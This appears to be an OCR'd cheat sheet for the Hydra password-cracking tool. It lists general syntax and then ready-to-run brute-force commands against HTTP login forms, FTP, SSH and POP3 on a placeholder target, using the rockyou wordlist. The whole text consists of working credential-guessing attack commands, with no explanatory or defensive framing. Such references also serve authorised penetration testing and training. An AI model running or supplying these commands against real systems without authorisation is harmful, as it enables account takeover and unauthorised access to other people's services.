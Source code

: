 hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
-L <users> -P <passwords>

[http]  hydra -l admin -P /usr/share/wordlists/rockyou.txt target.ip -s 80 http-post-form "/login.php:username=admin&password=^PASS^:Invalid Password!"
        hydra -l phillips -P /usr/share/wordlists/rockyou.txt target.ip  http-form-get '/login-get/index.php:username=^USER^&password=^PASS^:Login failed!'
[ftp]   hydra -L username.txt -P password.txt target.ip ftp -s 21
[ssh]   hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target.ip -o hydra.ssh
[pop3]  hydra -I -L usernames.txt -P passwords.txt pop3://target.ip -t 64 -o hydra.pop3




